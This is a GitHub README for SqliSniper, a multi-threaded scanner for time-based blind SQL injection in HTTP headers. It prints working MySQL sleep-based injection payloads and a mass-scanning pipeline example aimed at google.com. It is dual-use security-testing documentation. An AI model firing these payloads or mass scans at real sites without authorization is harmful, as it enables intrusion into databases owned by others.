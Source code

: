 <h1 align="center">
  <img src="logo.png" alt="httpx" width="400px">
  <br>
</h1>

<p align="center">
<a href="https://opensource.org/licenses/MIT"><img src="https://img.shields.io/badge/license-MIT-_red.svg"></a>
<a href="https://twitter.com/DanialHalo"><img src="https://img.shields.io/twitter/follow/dan1337.svg?logo=twitter"></a>
<a href="https://www.linkedin.com/in/dan1337/"><img src="https://img.shields.io/badge/LinkedIn-0077B5?logo=linkedin&logoColor=whit"></a>
</p>

<p align="center">
  <a href="https://github.com/danialhalo/SqliSniper#key-features">Features</a> •
  <a href="#installation">Installation</a> •
  <a href="#usage">Usage</a> •
  <a href="https://github.com/danialhalo/SqliSniper#running-sqlisniper">Running SqliSniper</a> •
  <a href="https://github.com/danialhalo/SqliSniper#contributing">Contributing</a> •
</p>

**SqliSniper** is a robust Python tool designed to detect time-based blind SQL injections in HTTP request headers. It enhances the security assessment process by rapidly scanning and identifying potential vulnerabilities using advanced multi-threaded techniques.

![alt text](https://raw.githubusercontent.com/danialhalo/SqliSniper/main/screenshot.png)

## Key Features
- **Time-Based Blind SQL Injection Detection:** Pinpoints potential SQL injection vulnerabilities in HTTP headers.
- **Multi-Threaded Scanning:** Offers faster scanning capabilities through concurrent processing.
- **Discord Notifications:** Sends alerts via Discord webhook for detected vulnerabilities.
- **False Positive Checks:** Implements response time analysis to differentiate between true positives and false alarms.
- **Custom Payload and Headers Support:** Allows users to define custom payloads and headers for targeted scanning.


## Installation
```
git clone https://github.com/danialhalo/SqliSniper.git
cd SQLSniper
chmod +x sqlisniper.py
pip3 install -r requirements.txt
```
# Usage:

This will display help for the tool. Here are all the options it supports.
```
ubuntu:~/sqlisniper$ ./sqlisniper.py -h


███████╗ ██████╗ ██╗     ██╗    ███████╗███╗   ██╗██╗██████╗ ███████╗██████╗
██╔════╝██╔═══██╗██║     ██║    ██╔════╝████╗  ██║██║██╔══██╗██╔════╝██╔══██╗
███████╗██║   ██║██║     ██║    ███████╗██╔██╗ ██║██║██████╔╝█████╗  ██████╔╝
╚════██║██║▄▄ ██║██║     ██║    ╚════██║██║╚██╗██║██║██╔═══╝ ██╔══╝  ██╔══██╗
███████║╚██████╔╝███████╗██║    ███████║██║ ╚████║██║██║     ███████╗██║  ██║
╚══════╝ ╚══▀▀═╝ ╚══════╝╚═╝    ╚══════╝╚═╝  ╚═══╝╚═╝╚═╝     ╚══════╝╚═╝  ╚═╝

                            -: By Muhammad Danial :-

usage: sqlisniper.py [-h] [-u URL] [-r URLS_FILE] [-p] [--proxy PROXY] [--payload PAYLOAD] [--single-payload SINGLE_PAYLOAD] [--discord DISCORD] [--headers HEADERS]
                     [--threads THREADS]

Detect SQL injection by sending malicious queries

options:
  -h, --help            show this help message and exit
  -u URL, --url URL     Single URL for the target
  -r URLS_FILE, --urls_file URLS_FILE
                        File containing a list of URLs
  -p, --pipeline        Read from pipeline
  --proxy PROXY         Proxy for intercepting requests (e.g., http://127.0.0.1:8080)
  --payload PAYLOAD     File containing malicious payloads (default is payloads.txt)
  --single-payload SINGLE_PAYLOAD
                        Single payload for testing
  --discord DISCORD     Discord Webhook URL
  --headers HEADERS     File containing headers (default is headers.txt)
  --threads THREADS     Number of threads
```

# Running SQliSniper
### Single Url Scan
The url can be provided with `-u flag` for single site scan
```
./sqlisniper.py -u http://example.com
```
### File Input
This will run the tool with the `-r flag` against all the urls in urls.txt.
```
./sqlisniper.py -r url.txt
```
### Pipeline
The SqliSniper can also worked with the pipeline input with `-p flag`
```
cat url.txt | ./sqlisniper.py -p
```
This is helpful when integrating with other tools. For example we can use the subfinder , httpx and then pipe the output to SqliSniper for mass scanning
```
subfinder -silent -d google.com | sort -u | httpx -silent | ./sqlisniper.py -p
```
### Scanning with custom payloads  
By default the SqliSniper use the payloads.txt file. However `--payload flag` can be used for providing custom payloads file.
```
./sqlisniper.py -u http://example.com --payload mssql_payloads.txt
```
While using the custom payloads file, ensure that you substitute the sleep time with `%__TIME_OUT__%`. SqliSniper dynamically adjusts the sleep time iteratively to mitigate potential false positives.
The payloads file should look like this.
```
ubuntu:~/sqlisniper$ cat payloads.txt 
0\"XOR(if(now()=sysdate(),sleep(%__TIME_OUT__%),0))XOR\"Z
"0"XOR(if(now()=sysdate()%2Csleep(%__TIME_OUT__%)%2C0))XOR"Z"
0'XOR(if(now()=sysdate(),sleep(%__TIME_OUT__%),0))XOR'Z
```
### Scanning with single payloads
If you want to only test with the single payload `--single-payload flag` can be used. Make sure to replace the sleep time with `%__TIME_OUT__%`
```
./sqlisniper.py -r url.txt --single-payload "0'XOR(if(now()=sysdate(),sleep(%__TIME_OUT__%),0))XOR'Z"
```
### Scanning Custom Header 
Headers are saved in the file headers.txt for scanning custom header save the custom HTTP Request Header in headers.txt file. 
```
ubuntu:~/sqlisniper$ cat headers.txt 
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64)
X-Forwarded-For: 127.0.0.1
```
### Sending Discord Alert Notifications
SqliSniper also offers Discord alert notifications, enhancing its functionality by providing real-time alerts through Discord webhooks. This feature proves invaluable during large-scale scans, allowing prompt notifications upon detection.
```
./sqlisniper.py -r url.txt --discord <web_hookurl>
```
### Multi-Threading 
Threads can be defined with `--threads flag`
```
 ./sqlisniper.py -r url.txt --threads 10
```
**Note:** It is crucial to consider that **employing a higher number of threads might lead to potential false positives or overlooking valid issues**. Due to the nature of time-based SQL injection it is recommended to use lower thread for more accurate detection.

# Contributing
Contributions to SqliSniper are always welcome. Whether it's feature enhancements, bug fixes, or documentation improvements, every bit of help is appreciated.


# License
`SqliSniper` is distributed under [MIT License](https://github.com/danialhalo/SqliSniper/blob/main/LICENSE)

